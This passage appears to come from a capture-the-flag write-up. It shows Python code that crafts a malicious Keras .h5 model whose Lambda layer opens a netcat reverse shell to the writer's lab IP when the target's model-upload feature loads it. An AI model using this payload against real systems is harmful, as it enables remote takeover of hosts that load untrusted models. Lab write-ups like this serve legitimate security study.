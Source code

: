 ![artificiallogin.png](artificiallogin.png)

### Exploit: Malicious .h5 Upload

We noticed AI model uploads, so we craft a malicious `.h5` file using Python.

Replace 10.10.14.93 with your ip.

Also, I jumped the gun here and created the file with python.

But you could have just used the dockerfile.

For the sake of the writeup, I’m going to show the method that I used to keep it authentic:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.93 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Install necessary dependencies via `requirements.txt`, then run:

```bash
python3 exploit.py
```
